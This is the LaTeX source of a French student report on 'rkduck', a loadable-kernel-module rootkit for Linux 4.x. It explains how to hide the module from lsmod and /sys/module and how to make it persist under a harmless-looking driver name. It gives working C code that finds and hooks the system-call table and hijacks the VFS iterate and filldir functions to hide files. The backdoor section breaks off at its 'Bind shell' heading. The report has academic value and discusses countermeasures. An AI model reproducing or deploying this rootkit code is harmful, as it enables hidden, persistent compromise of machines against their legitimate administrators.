
%----------------------------------------------------------------------------------------
%   PACKAGES AND OTHER DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------------

\documentclass[12pt]{article}

\usepackage{fancyhdr} % Required for custom headers
\usepackage{lastpage} % Required to determine the last page for the footer
\usepackage{extramarks} % Required for headers and footers
\usepackage[usenames,dvipsnames]{color} % Required for custom colors
\usepackage{graphicx} % Required to insert images
\usepackage{listings} % Required for insertion of code
\usepackage{courier} % Required for the courier font
\usepackage{array,multirow,makecell}
\usepackage[utf8]{inputenc}
\usepackage{indentfirst} %Indentation début de paragraphe
\usepackage{float}
\usepackage{colortbl} %Clouleur tableau protoypes de fonctions
\usepackage{alltt}
\usepackage{fancyvrb}
\usepackage{hyperref}
\usepackage{amsmath}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{cases}
\usepackage{minted}
\usemintedstyle{friendly}
\definecolor{bg}{RGB}{255, 255, 255}


% Marges
\topmargin=-0.45in
\evensidemargin=0in
\oddsidemargin=0in
\textwidth=6.5in
\textheight=9.0in
\headsep=0.25in

\linespread{1.1} % Line spacing

%  Mise en place des pieds de page et en-têtes.
\pagestyle{fancy}
\lhead{rkduck} % Top left header
\chead{LKM rootkit pour Linux v4.x.x} % Top center head
\rhead{Master CSI} % Top right header
\lfoot{\lastxmark} % Bottom left footer
\cfoot{} % Bottom center footer
\rfoot{Page\ \thepage\ sur\ \protect\pageref{LastPage}} % Bottom right footer
\renewcommand\headrulewidth{0.4pt} % Size of the header rule
\renewcommand\footrulewidth{0.4pt} % Size of the footer rule

%\setlength\parindent{10pt} % Removes all indentation from paragraphs

%----------------------------------------------------------------------------------------
%   Page de Titre
%----------------------------------------------------------------------------------------

\title{
\pagenumbering{roman} \setcounter{page}{0} %La page courante sera numérotée en roman et aura l'indice 0 => Pas de numéro car pas de 0 en roman
\vspace{2in}
\textmd{\textbf{\hmwkClass:\ \hmwkTitle}}\\
\normalsize\vspace{0.1in}\small{\hmwkDueDate}\\
\vspace{0.1in}\large{\textit{\hmwkClassInstructor\ }}
\vspace{3in}
}

\author{\textbf{\hmwkAuthorName}}

%----------------------------------------------------------------------------------------
%   Page de garde
%----------------------------------------------------------------------------------------


\makeatletter
\def\clap#1{\hbox to 0pt{\hss #1\hss}}%
\def\ligne#1{%
\hbox to \hsize{%
\vbox{\centering #1}}}%
\def\haut#1#2#3{%
\hbox to \hsize{%
\rlap{\vtop{\raggedright #1}}%
\hss
\clap{\vtop{\centering #2}}%
\hss
\llap{\vtop{\raggedleft #3}}}}%
\def\bas#1#2#3{%
\hbox to \hsize{%
\rlap{\vbox{\raggedright #1}}%
\hss
\clap{\vbox{\centering #2}}%
\hss
\llap{\vbox{\raggedleft #3}}}}%
\def\maketitle{%
\thispagestyle{empty}\vbox to \vsize{%
\haut{}{\@blurb}{}
\vfill
\vspace{1cm}
\begin{flushleft}
\huge \@title
\end{flushleft}
\par
\hrule height 1pt
\par
\begin{flushright}
\Large \@author
\par
\end{flushright}
\vfill

\vfill
\bas{}{\@location, le 21 Mars 2016}{}
}%
\cleardoublepage
}
\def\date#1{\def\@date{#1}}
\def\author#1{\def\@author{#1}}
\def\title#1{\def\@title{#1}}
\def\location#1{\def\@location{#1}}
\def\blurb#1{\def\@blurb{#1}}
\date{\today}
\location{Bordeaux}\blurb{}
\makeatother
\title{\textbf{\textit{rkduck} : LKM rootkit Linux 4.x.x}}
\author{Thomas Le Bourlot, Maxime Peterlin, Martial Puygrenier}
\location{Bordeaux}
\blurb{
Université de Bordeaux\\
Faculté de Sciences et Techniques
}%

%----------------------------------------------------------------------------------------

\begin{document}

\maketitle
% {2cm}
\begin{abstract}
\thispagestyle{empty}
    Dans la continuité des travaux réalisés sur les rootkits pour les kernel 2.6.x et 3.x.x nous avons décidé de réaliser une étude des techniques d'injection de rootkits sur les kernels 4.x.x. Très peu de ressources récentes traitent du sujet et les sources des rootkits disponibles sur internet sont très souvent obsolètes suite aux modifications de certaines fonctions entre les différentes versions du noyau Linux. Vous retrouverez dans la bibliographie l'ensemble des ressources et articles qui nous ont aidés dans la conception et le développement du rootkit \texttt{rkduck}. Notre travail est disponible à l'adresse suivante : \href{https://github.com/QuokkaLight/rkduck/}{https://github.com/QuokkaLight/rkduck/}.
\end{abstract}
% \vspace{2cm}

\vspace{5cm}
\begin{center}

\includegraphics[width=0.5\linewidth]{img/logo_blk.png} 
\end{center}
\newpage

%----------------------------------------------------------------------------------------
%   Table des matières
%----------------------------------------------------------------------------------------

%\setcounter{tocdepth}{1} % Uncomment this line if you don't want subsections listed in the ToC
\pagenumbering{arabic} \setcounter{page}{1} 
\thispagestyle{empty}
\renewcommand\contentsname{Sommaire}
\tableofcontents
\newpage

%----------------------------------------------------------------------------------------
%   Partie à remplir
%----------------------------------------------------------------------------------------

\newcommand*{\escape}[1]{\texttt{\textbackslash#1}}
\newcommand*{\escapeI}[1]{\texttt{\expandafter\string\csname #1\endcsname}}
\newcommand*{\escapeII}[1]{\texttt{\char`\\#1}}


\section*{Introduction}
\addcontentsline{toc}{section}{Introduction}

    Cet article traite des rootkits. Ce sont des programmes permettant de cacher la compromission d'une machine à ses utilisateurs légitimes. Plus précisément, nous expliquerons le développement de notre rootkit nommé \texttt{rkduck}, un LKM (Loadable Kernel Module) rootkit pour Linux v4.x.x. \\

    Nos propos seront développés de la manière suivante. Dans un premier temps, nous rappellerons en quoi consiste un rootkit et comment ils ont évolué au fil du temps. Une partie sera consacrée aux différentes méthodes d'injection de code dans le noyau Linux. Suite à cela, nous expliquerons comment notre rootkit détourne le fonctionnement du système pour cacher une activité malveillante et de quelle manière il reste persistant sur la machine. Nous expliquerons ensuite les fonctionnalités mises à disposition par notre rootkit et nous terminerons sur les méthodes de détection existantes.

\section{Définition et évolution des rootkits}

    Afin de compromettre une machine, un attaquant passe généralement par la même série d'étapes. Une fois que des vulnérabilités dans le système ont été identifiées, l'attaquant les exploite pour prendre la main sur le système jusqu'à compromettre entièrement ce dernier afin d'avoir les droits de super-utilisateur.
    Cependant, l'exploitation de failles dans un système ne peut être considérée comme un moyen sûr pour accéder à une machine, car le simple fait de corriger les vulnérabilités empêcherait d'y accéder à nouveau. C'est pourquoi il est nécessaire de faire persister l'accès après la compromission, ce qui est rendu possible par l'utilisation de rootkits.\\
    
    Les premiers types de rootkits utilisés étaient des ensembles de programmes qui permettaient de substituer les outils d'administration standard tels que \texttt{ls}, \texttt{ps}, etc. Ainsi, l'intrus avait le contrôle sur les sorties de ces programmes et pouvait cacher l'activité malicieuse qui s'opérait sur la machine. Cependant, il devenait fastidieux de cacher la compromission de sa machine à l'administrateur. Ce dernier pouvait utiliser plusieurs programmes effectuant la même action pour recouper les informations et ainsi découvrir des différences entre les résultats retournés, révélant ainsi la présence d'un rootkit.\\
    
    Les attaquants se sont alors rendus compte qu'il était inutile de réécrire toute une suite de programmes, ce qui peut devenir très conséquent en terme de taille et de temps de développement. Il suffit de remonter aux fonctions utilisées par tous ces programmes : les appels systèmes. En supposant que l'intrus ait accès au kernel, il est possible d'intercepter les appels systèmes pour les rediriger vers des fonctions malveillantes afin de cacher la compromission de la machine. A partir du moment où l'attaquant a le contrôle sur le noyau du système, il devient difficile de détecter de manière fiable un rootkit, car les systèmes de sécurité opèrent, au mieux, au niveau du kernel et des fonctions que l'on peut penser digne de confiance peuvent retourner des résultats falsifiés. \\
    C'est ce type de rootkit que nous allons étudier par la suite, notamment ceux s'injectant dans le système sous la forme d'un module kernel\cite{suterusu}.

    % Petite partie sur les bootkits
    % ou pas


\section{Injection en mémoire}

    Il existe plusieurs méthodes d'injection de code dans un noyau. Nous étudierons dans cette partie les deux méthodes les plus répandues à savoir l'utilisation du périphérique \texttt{/dev/mem}\cite{devmem} et les modules noyau. À titre informatif, il est également possible d'utiliser des vulnérabilités du noyau ou bien l'entrée \texttt{FireWire} qui permet d'avoir un accès direct à toute la mémoire de la machine, cette méthode nécessite cependant un accès physique à celle-ci.\\

    Afin de développer \texttt{rkduck} nous nous sommes, dans un premier temps, tournés vers l'injection basée sur \texttt{/dev/mem}. Cependant, un patch de sécurité empêche son utilisation sur les versions 4.x.x du noyau Linux, ce qui fait que nous avons finalement optés pour la construction d'un LKM rootkit.

    \subsection{Injection via /dev/mem}
    
        \texttt{/dev/mem} est un fichier fournissant un accès à une image de la mémoire physique de la machine. L'intérêt principal d'un tel fichier est de pouvoir accéder directement à la mémoire sans écrire un driver kernel. Il devient alors plus aisé et rapide d'examiner la mémoire et de patcher le sytème. \texttt{/dev/mem} est un point d'entrée pour injecter du code malicieux\cite{hackin9}\cite{sstic} car, si un attaquant peut écrire dans \texttt{/dev/mem}, alors il pourra modifier des parties du kernel, notamment la table des appels systèmes ou encore les fonctions liées au \texttt{Virtual File System}, comme nous le verrons par la suite.\\
        
        L'intérêt de cette méthode est qu'elle est plus discrète que, par exemple, une injection via un module noyau. En effet, si on suppose qu'il est possible de charger un LKM et d'écrire dans \texttt{/dev/mem}, lorsqu'on injecte un LKM il est toujours possible d'effectuer une analyse comportementale ou bien de rajouter une vérification d'authenticité par signature cryptographique, alors que dans le cas de \texttt{/dev/mem}, l'injection est directe dans la mémoire kernel et il n'y a pas d'interface qui pourrait se charger de vérifier le caractère malveillant ou non du code injecté.\\
        
        Il existe également un fichier nommé \texttt{/dev/kmem}. C'est essentiellement le même fichier que \texttt{/dev/mem} sauf que dans le cas de \texttt{/dev/kmem} on accède à la mémoire virtuelle du kernel et non à la mémoire physique. La mémoire kernel possède peut fonctionner suivant deux modes. Le premier est un décalage par rapport à la mémoire physique, par exemple sur \texttt{x86} l'adresse physique \texttt{0x00000001} est mappée sur l'adresse virtuelle kernel \text{0xc0000001}. Le second mode repose sur la routine \texttt{vmalloc} qui est l'un des principaux mécanismes d'allocation de mémoire dynamique. Dans ce cas, le kernel ne sera pas contigüe en mémoire physique, même ce dernier verra les adresses virtuelles comme contigües.\\
        
        Nous avons cependant mis de côté ce type d'injection, car elle est aujourd'hui désactivée par défaut dans la plupart des distributions, notamment dans \textit{Jessie} la version 8 de Debian sur laquelle nous développons et effectuons la plupart de nos tests.
        
        De manière plus générale, depuis les versions 2.6.26 du kernel Linux, il existe une option activée par défaut, \texttt{CONFIG\_STRICT\_DEVMEM}, qui limite l'accès à \texttt{/dev/mem} au premier mégaoctet. Cela permet d'accéder aux périphériques PCI et certaines régions du BIOS, ce qui est suffisant pour les applications qui ont besoins d'utiliser \texttt{/dev/mem} et empêche les autres applications d'injecter du code malicieux. 

        %\texttt{/dev/mem} est un fichier qui fournit un accès à une image de la mémoire physique de la machine. L'intérêt principale est de pouvoir par exemple patché le système rapidement sans avoir à écrire un driver kernel. Comme on peut très vite l'imaginer, \texttt{/dev/mem} a été un point d'entré pour injecter du code malicieux.   L'attaquant va pour cela ciblé la table des appels systèmes en utilisant l'IDT (Interupt Descriptor Table). Il va ensuite changé les entrées de la table système pour qu'elle sur les fonctions du rootkits. Une autre technique consiste à copier la tables des appels système, la modifier et faire pointé le gestionnaire des appels système vers cette nouvelle table et ainsi laisser la table original inchangé.  
        %
        %L'avantage de cette méthode est qu'elle est très discrète par rapport à une injection LKM, en effet le rootkit ne se situe pas directement sur le disque de la machine mais il est présent dans mémoire volatile, ce qui fait qu'une analyse forensic doit pousser son investigation jusque dans la mémoire RAM pour trouver le rootkit. 
        %

    \subsection{Injection via un Loadable Kernel Module (LKM)}

        Les \textit{Loadable Kernel Modules} sont un moyen pratique de modifier le kernel pendant qu'il s'exécute. Ils permettent ainsi de rajouter ou de supprimer des fonctionnalités (comme des drivers) au noyau sans pour autant redémarrer le système ou le recompiler. \\
        
        Ces modules s'exécutent en espace noyau et en possède donc les droits d'exécution. Si un attaquant est capable d'injecter un tel module, alors il pourra avoir la main sur le kernel et, a fortiori, sur l'ensemble de la machine. De la même manière qu'avec l'injection via \texttt{/dev/mem} il est possible de s'attaquer aux appels systèmes et au VFS (section ~\ref{sec:vfs}) pour falsifier les informations que l'administrateur légitime de la machine tenterait d'obtenir et ainsi rendre notre rootkit invisible. \\
        
        Un module kernel a accès aux mêmes fonctionnalités que le kernel, ce qui fait que sa compilation requiert la source du noyau dans lequel on veut l'injecter. Cela peut devenir problématique car les sources ne sont pas nécessairement disponibles sur la machine cible, il faut alors les télécharger ce qui peut attirer l'attention de l'utilisateur légitime, ou bien compiler le LKM sur une autre machine. \\
        
        Une fois que le module a été inséré dans le système, il est, à ce stade, très facile de le détecter. En effet, il est possible de lister les LKM actuellement chargés dans le noyau à l'aide de commandes telles que \texttt{lsmod}, \texttt{modinfo} ou encore \texttt{ls /sys/module/}. Il faut prendre en compte toutes ces méthodes et faire en sorte que l'utilisateur légitime ne puisse pas détecter notre rootkit uniquement en affichant une simple liste des modules chargés. \\

        % Paragraphe à vérifier et à préciser
        Nous nous sommes renseignés sur deux méthodes permettant de supprimer notre rootkit de ces listes. La première se base sur le fait que les informations relatives aux modules sont stockées dans des listes chaînées. Il suffit alors de retirer le rootkit de cette liste et les commandes telles que \texttt{lsmod} ne retourneront plus le nom de notre rootkit. Il faut également le supprimer du dossier \texttt{/sys/module/}. Pour se faire, l'instruction \texttt{kobject\_del(\&THIS\_MODULE->mobj.kobj)} va se charger de retirer l'entrée de notre module au niveau du \texttt{VFS}, le retirant ainsi du dossier \texttt{/sys/module/}.

        La seconde méthode consiste à charger le module, modifier la fonction de suppression des modules, puis le retirer\cite{spacelkm}. La nouvelle fonction de suppression des modules va se comporter comme la fonction originale, sauf que le code du module ne sera pas supprimé. Cela permet de retirer toutes les informations superflues qui pourrait donner des indices à l'utilisateur légitime quant à la présence d'un rootkit, tout en gardant le code de ce dernier. \\
        
        Il existe plusieurs contre-mesures empêchant l'injection de LKM malicieux. La solution la plus radicale consiste à compiler un noyau monolithique en y ajoutant, dès le départ, les modules voulus de manière statique tout en désactivant leur insertion dans le système par la suite.

        Une seconde méthode de prévention consiste à n'autoriser le chargement qu'au démarrage de la machine, ce qui est rendu possible grâce à des solutions pourvues par \textit{grsecurity}. Dans ce cas, les modules choisis sont chargés durant la période de boot et, par la suite, un attaquant ne pourra pas insérer un module tant que le système sera en cours d'exécution.

        % A compléter
        % Si on rajoute un module et qu'on reboot, est-ce que le module sera chargé ?
        % Est-ce que grsecurity remonte des alertes / crée des logs si ces fichiers sont modifiés ? 
        % A tester
        Sinon, comme nous l'avons expliqué précédemment, si l'on ne souhaite pas empêcher l'insertion de LKM, alors il est possible de rajouter des étapes d'authentification et de vérification qui précèderont le chargement du module. En effet, on peut demander un mot de passe à l'utilisateur, rajouter une vérification des modules par signature cryptographique ou encore effectuer automatiquement une analyse statique, voire dynamique, du module avant son insertion.
    
\section{Détournement de l'exécution du noyau}  

Nous avons utilisé deux méthodes différentes afin de détourner le fonctionnement du système. La première se base sur la modification des appels systèmes et la seconde sur le détournement des fonctions du \texttt{Virtual File System}.

    \subsection{Détournement des appels systèmes}
    
        Les appels systèmes sont une interface entre le monde utilisateur et le noyau. De nombreux programmes sont dépendants de ces derniers pour mener leurs tâches à bien. Par exemple, si l'on souhaite cacher un dossier \texttt{rkduck}, il est possible de modifier l'appel système \texttt{getdents}. Ainsi, tous les programmes utilisant \texttt{getdents}, tels que \texttt{find} ou \texttt{ls}, ne seront pas en mesure d'afficher le dossier \texttt{rkduck}.\\

        Il est important de noter que \texttt{rkduck} ne repose pas sur la modification des appels système pour fonctionner, mais sur le détournement du \texttt{Virtual File System}, technique qui sera détaillée par la suite. Le code dans notre rootkit gérant le détournement des appels système n'est pour le moment qu'une preuve de concept qui est inutile au niveau du fonctionnement global et sera certainement supprimé ultérieurement. \\

        La solution la plus directe et la plus simple pour détourner les appels système est de modifier la table des appels système\cite{turbochaos}. Pour se faire, il faut tout d'abord localiser son emplacement en mémoire. Il existe, dans une structure appelée \texttt{sys\_call\_table}, un pointeur la référençant utilisé par tous les appels système. Pour le localiser, nous allons simplement brute forcer une série d'adresses du kernel. Pour chaque adresse, nous ajoutons un offset à la valeur pointée, puis on la compare avec l'adresse connue d'un appel système. Si les deux valeurs correspondent, l'itération est arrêtée et l'adresse utilisée durant ce tour de boucle est celle de la table des appels système.

\begin{listing}[H]
\begin{minted}[bgcolor=bg, linenos]{c}
#if defined(__i386__) /* x86 */
    #define SCT_START_CHECK 0xc0000000
    #define SCT_END_CHECK   0xd0000000
    typedef unsigned int ptr_t;
#else /* x86_64 */
    #define SCT_START_CHECK 0xffffffff81000000
    #define SCT_END_CHECK   0xffffffffa2000000
    typedef unsigned long ptr_t;
#endif /* arch */

ptr_t find_syscall_table(void) {
    ptr_t** sc_table;
    ptr_t addr = SCT_START_CHECK;
    
    while (addr < SCT_END_CHECK) {
        sc_table = (ptr_t**) addr;
        if (sc_table[__NR_close] == (ptr_t*) sys_close) {
            return (ptr_t) &sc_table[0];
        }

        addr += sizeof(void *);
    }
    return NULL;
}
\end{minted}
\caption{Code permettant de trouver l'adresse de la table des appels système\cite{turbochaos}}
\label{listing:3}
\end{listing}
        
        Comme la mémoire kernel est partagée entre tous les éléments opérant au niveau du noyau, il est possible de remplacer les pointeurs vers les appels système par des fonctions définies dans notre rootkit. Le problème étant que la page mémoire contenant la table des appels système est en lecture seule. Il faut donc au préalable modifier les droits sur cette dernière grâce à la structure \texttt{pte\_t} (Page Table Entry) qui contient les attributs d'une page donnée. Ce qui est rendu possible par la fonction suivante.
        
\begin{listing}[H]
\begin{minted}[bgcolor=bg, linenos]{c}
int set_page_rw(ptr_t address) {
    unsigned int level;
    pte_t *pte = lookup_address(address, &level);

    if (pte->pte &~ _PAGE_RW) {
        pte->pte |= _PAGE_RW;
    }

    return 0;
}
\end{minted}
\caption{Code permettant de trouver l'adresse de la table des appels système\cite{turbochaos}}
\label{listing:3}
\end{listing}

		Il ne reste plus qu'à remplacer l'appel système. Dans l'exemple qui suit, l'appel système détourné est \texttt{write}. La nouvelle fonction \texttt{write} va regarder si le buffer à afficher contient la chaîne de caractères ".rkduck". Si c'est le cas, la fonction ne renvoie rien, sinon, on fait appel à l'originale en lui passant les mêmes arguments qu'à notre fonction détournée.
		
\begin{listing}[H]
\begin{minted}[bgcolor=bg, linenos]{c}
asmlinkage ssize_t duck_write(int fd, const char __user *buff, 
                              ssize_t count) {
    int r = 0;
    char *proc_protect = ".rkduck";
    char *kbuff = (char *) kmalloc(256, GFP_KERNEL);
    
    if (!copy_from_user(kbuff, buff, 255)) {
        if (strstr(kbuff, proc_protect)) {
            kfree(kbuff);
            return EEXIST;
        }

        r = (*original_write)(fd, buff, count);
        kfree(kbuff);
    }
        
    return r;
}
\end{minted}
\caption{Appel système \texttt{write} modifié}
\label{listing:3}
\end{listing}

\begin{listing}[H]
\begin{minted}[bgcolor=bg, linenos]{c}
int duck_init(void) {
    /* [...] */    
    set_page_rw((ptr_t) sys_call_table);
    original_write = xchg(&sys_call_table[__NR_write], duck_write);
    set_page_ro((ptr_t) sys_call_table);
	/* [...] */
    return 0;
}
\end{minted}
\caption{Détournement de l'appel système \texttt{write}}
\label{listing:3}
\end{listing}

        Nous avons décrit ici une méthode simple et peu furtive permettant de se hooker à la table des appels système et de détourner n'importe lequel de ses éléments. Il existe cependant des techniques plus avancées remontant la séquence d'exécution d'un appel système.

        Par exemple, il est possible de détecter la méthode détaillée ci-dessus en vérifiant les adresses contenues dans la table des appels système. Pour contourner la détection, nous pouvons nous attaquer au gestionnaire des appels système en remplaçant dans ce dernier l'adresse de la table utilisée. Ainsi, il suffit de copier la table des appels système et de changer le pointeur utilisé dans le gestionnaire pour que ce dernier utilise notre table détournée au lieu de l'originale. Ainsi, lorsque l'administrateur tentera de détecter notre hook en regardant la table originale, il échouera, car cette dernière n'a pas été modifiée. De la même manière que précédemment, si l'utilisateur légitime vérifie le pointeur utilisé par le gestionnaire des appels système, il se rendra compte que la table utilisée diffère de l'originale. 
        
        Il est possible de remonter la chaîne d'exécution des appels système en détournant à chaque niveau les mécanismes utilisés. Les contre-mesures sont toujours aussi  "simples". Il est compliqué de cacher le détournement effectué par un rootkit si ce n'est en falsifiant les résultats retournés au niveau utilisateur ou en bloquant l'accès au kernel à d'autres modules pouvant servir à détecter le rootkit.

    \subsection{Détournement du \texttt{Virtual File System}}
    \label{sec:vfs}
    
        Le \texttt{Virtual File System} (VFS) est une couche de communication se situant entre le kernel et le système de fichier utilisé (ext3, ext4, etc.). C'est le VFS qui se chargera de traduire les instructions envoyées par le kernel pour qu'elle soit compréhensible par le système de fichier.
        L'intérêt de s'attaquer au VFS est de pouvoir cacher des fichiers aux yeux de l'utilisateur légitime. Ainsi, on va pouvoir dissimuler des fichiers, des dossiers, mais aussi des processus grâce à des hooks (i.e modification des pointeurs de fonction) sur des fonctions du VFS. \\

        Nous allons, dans la suite de cette partie, illustrer nos propos en construisons le système servant à dissimuler un fichier nommé \texttt{rkduck}. Le même principe pourra se généraliser à une liste de fichiers à cacher, mais aussi s'appliquer à la dissimulation de processus ou de connexions réseaux. 

        Premièrement, nous allons récupérer un pointeur sur la fonction \texttt{iterate} afin de la détourner. \texttt{iterate} est une fonction qui est appelé par l'appel système \texttt{getdents} et qui va amorcer la récupération du contenu du dossier passé en argument à \texttt{getdents}. Ainsi, si l'on contrôle cette fonction, on peut décider des résultats renvoyés par celle-ci. L'ensemble des fonctions présentées ici sont disponibles dans le fichier \href{https://github.com/QuokkaLight/rkduck/blob/master/rkduck/vfs.c}{vfs.c}.

        Étant donné que nous souhaitons ici cacher des fichiers, il faudra que le pointeur vers \texttt{iterate} soit relatif à la racine \texttt{/}, pour les processus on pourra se cantonner à \texttt{/proc}. \\

\begin{listing}[H]
\begin{minted}[bgcolor=bg, linenos]{c}
struct file_operations {
  /* [...] */
  int (*iterate) (struct file *, struct dir_context *);
  /* [...] */
};
\end{minted}
\caption{Fonction iterate}
\label{listing:3}
\end{listing}

        Pour récupérer un pointeur sur cette fonction, il faut d'abord récupérer un pointeur vers la structure \texttt{file\_operations} relative à la racine \texttt{/}, ce qui est rendu possible grâce à la fonction \texttt{filp\_open}.\\

\begin{listing}[H]
\begin{minted}[bgcolor=bg, linenos]{c}
void *vfs_get_iterate(const char *path) {
    void *ret;
    struct file *file;

    if ((file = filp_open(path, O_RDONLY, 0)) == NULL)
        return NULL;

    ret = file->f_op->iterate;
    filp_close(file,0);

    return ret;
}
\end{minted}
\caption{Fonction vfs\_get\_iterate dans rkduck}
\label{listing:3}
\end{listing}

        Le détournement de la fonction \texttt{iterate} va s'effectuer de la manière suivante. Dans un premier temps on va garder une copie du pointeur sur cette dernière que l'on appellera \texttt{original\_iterate}. Grâce à ce pointeur nous allons pouvoir avoir un accès direct à son code, ce qui va nous permettre de le modifier. En effet, nous changerons les premières instructions de cette fonction pour qu'elle fasse un saut vers une fonction que nous contrôlons appelée \texttt{hijacked\_iterate}. Il faut également sauvegarder le code de la fonction originale, car cette dernière sera réutilisée plus tard. \\

\begin{figure}[H] 
\begin{center}
\includegraphics[scale=0.4]{./img/vfs_iterate_original_to_hijacked.png}

\caption[dsfsdf]{vfs iterate: original to hijacked}
\end{center}
\end{figure}

        A présent, la fonction qui va nous intéresser et qui est appelée par \texttt{iterate} est la fonction \texttt{filldir}. Lorsque l'on utilise l'appel système \texttt{getdents} pour lister le contenu d'un dossier, c'est la fonction \texttt{filldir} qui va se charger de remplir les structures contenant les informations sur les éléments contenus dans ce dossier. Ainsi, l'intérêt va être de remplacer cette fonction par une fonction malveillante \texttt{filldir\_hijacked} afin de contrôler quels fichiers nous souhaitons cacher.

        Dans la fonction \texttt{iterate}, c'est un pointeur vers la fonction \texttt{filldir} stocké dans la structure \texttt{struct dir\_context *ctx} qui permet de l'appeler. Ainsi, la fonction \texttt{hijacked\_iterate} aura pour unique but de modifier le pointeur vers la fonction \texttt{filldir} pour qu'il pointe vers notre fonction \texttt{filldir\_hijacked} avant de faire appel à la version originale de \texttt{iterate}.\\

\begin{listing}[H]
\begin{minted}[bgcolor=bg, linenos]{c}
int vfs_hijacked_iterate(struct file *file, struct dir_context *ctx) {
    int ret;

    *((filldir_t *)&ctx->actor) = &vfs_hijacked_filldir;

    vfs_hijack_stop(vfs_original_iterate);
    ret = vfs_original_iterate(file, ctx);
    vfs_hijack_start(vfs_original_iterate);

    return ret;
}
\end{minted}
\caption{Version simplifiée de vfs\_hijacked\_iterate dans rkduck}
\label{listing:3}
\end{listing}

        Comme nous l'avons spécifié précédemment, le code original de la fonction \texttt{iterate} a été sauvegardé. Une fois que que la structure \texttt{struct dir\_context *ctx} a été modifiée pour qu'elle contienne un pointeur vers notre fonction \texttt{hijacked\_filldir}, le code original de la fonction \texttt{iterate} est rétabli grâce à la fonction \texttt{vfs\_hijack\_stop}. \texttt{iterate} va maintenant faire appel à notre fonction \texttt{hijacked\_filldir} au lieu de l'original. Ainsi, en recodant \texttt{filldir} pour qu'elle renvoit \texttt{0} lorsqu'un fichier qu'on veut cacher a été passé en paramètre (\texttt{rkduck} dans l'exemple ci-dessous), on peut effectivement dissimuler à l'utilisateur légitime des fichiers malveillants. Il ne reste plus qu'à détourner à nouveau la fonction \texttt{iterate} pour qu'on puisse continuer la dissimulation de fichiers grâce à la fonction \texttt{vfs\_hijack\_start}.\\

\begin{listing}[H]
\begin{minted}[bgcolor=bg, linenos]{c}
static int 
vfs_hijacked_filldir(struct dir_context *ctx, const char *name, 
                     int namelen, loff_t offset, u64 ino, 
                     unsigned int d_type) 
{
    char *get_protect = "rkduck";
    
    if (strstr(name, get_protect)) {
        return 0;
    }

    return vfs_original_filldir(ctx, name, namelen, offset, ino, d_type);
}
\end{minted}
\caption{Version simplifiée de vfs\_hijacked\_filldir dans rkduck}
\label{listing:3}
\end{listing}

% Nous avons vu comment utiliser le VFS pour cacher des fichiers, dossiers mais il est aussi utilisé pour cacher les processus ou les connexions réseaux comme nous le verrons section~\ref{sec:ip} pour dissimuler les backdoors.

\section{Persistance du rootkit}

    Lorsqu'un attaquant a compromis un système, l'étape suivante est de trouver un moyen de faire perdurer cet accès dans le temps. Les techniques de persistance d'un rootkit sont primordiales, car ce sont elles qui vont lui permettre de garder un accès à la machine compromise. \\ 

    Lors d'un redémarrage, les modules ajoutés manuellement ne sont pas rechargés. Il existe un fichier de configuration, propre à chaque distribution, permettant de notifier au système les modules à charger au démarrage. Sur Debian, par exemple, ce fichier est \texttt{/etc/modules}. \\

    La persistance de notre rootkit repose sur un script \href{https://github.com/QuokkaLight/rkduck/blob/master/forever.sh}{bash} exécuté par le rootkit lors de son insertion et qui va se charger de déplacer le rootkit compilé avec les autres modules kernel \texttt{/lib/modules/../kernel/drivers/directory/}. Afin que les fichiers soient un minimum camouflés, au cas où l'utilisateur légitime chercherait manuellement dans le dossier des drivers un nom suspect, le script s'occupe de placer le rooktit au sein d'un dossier légitime exemple : \texttt{/kernel/drivers/tty/rkduck.ko}. Le nom du dossier abritant le rootkit peut être changé par l'attaquant avant l'injection du module, il pourra également pendre soin de renommer le rootkit compilé en un nom paraissant légitime comme, par exemple, \texttt{audio.ko}, \texttt{graphicards.ko}, \texttt{calendar.ko}, etc. \\

    Pour empêcher la persistance de notre rootkit, le simple fait de le supprimer de la liste des modules contenus dans \texttt{/etc/modules} et de redémarrer la machine. Le rootkit ne sera alors plus chargé et les fichiers malveillants seront visibles sur la machine. Il pourrait être intéressant, dans une version future de \texttt{rkduck} de détourner les modifications effectuées par l'utilisateur sur ce fichier. Ainsi, lorsqu'il voudra le modifier, \texttt{rkduck}, sera présent dans la liste des modules à charger, mais non visible. Toutes les modifications faites par l'utilisateur pourront également être prises en compte afin qu'il ne suspecte pas d'activités malveillantes sur sa machine. De ce fait, il pourra ajouter ou retirer des modules du fichier, mais \texttt{rkduck} restera invisible et persistant.

\section{Fonctionnalités du rootkit}
    
    L'intérêt principal d'un rootkit est de garder un accès à la machine compromise tout en effaçant et en dissimulant toutes traces d'intrusion. Dans cette partie nous expliquerons comment \texttt{rkduck} cache les fichiers, les processus et les connexions réseaux. Nous détaillerons également comment l'attaquant peut, par la suite, accéder à la machine compromise grâce à différents types de backdoors, lui permettant ainsi de s'adapter à diverses situations.

    \subsection{Furtivité}
        
        	La dissimulation des éléments malveillants de notre rootkit repose essentiellement sur le détournement des fonctions du VFS. Comme nous l'avons vu précédemment, la fonction \texttt{filldir} est remplacée afin d'avoir le contrôle sur les éléments d'un dossier. 

			La dissimulation est basée sur trois listes chaînées pour les fichiers, les processus et les connexions réseaux. Le format de ces listes est donné ci-dessous.

\begin{listing}[H]
\begin{minted}[bgcolor=bg, linenos]{c}
struct hidden_file {
    char *path;
    struct list_head list;
};
\end{minted}
\caption{Structure d'un élément d'une liste}
\label{listing:3}
\end{listing}

			Ainsi, si l'on souhaite dissimuler un élément du système, il faut ajouter une entrée dans la liste correspondante en indiquant le chemin absolu vers la ressource à cacher. C'est au moment de l'appel à la fonction \texttt{filldir} que la vérification est faite. Si la ressource est publique, alors la fonction \texttt{filldir} originale  est appelée. Autrement, la valeur 0 est renvoyée, ce qui permet de cacher la ressource voulue.

			Il est évident que cette méthode de dissimulation n'est efficace que si le système de fichier est monté par le kernel infecté. Si le disque contenant le rootkit est monté sur une machine saine, cela aura pour effet de révéler les binaires qui pourront alors être analysés.

    \subsection{Backdoor}

        La backdoor, littéralement "la porte de derrière", est, de manière générale, le point central des rootkits. Le reste des fonctionnalités le constituant a pour objectif principal de cacher la présence d'un accès illégitime à la machine. Nous allons détailler dans les paragraphes qui suivent les différentes backdoors implémentées, ainsi que les situations auxquelles elles se rattachent. Les sources sont disponibles dans le fichier \href{https://github.com/QuokkaLight/rkduck/blob/master/rkduck/backdoor.c}{backdoor.c}.
    
        \subsubsection{Bind shell}
            
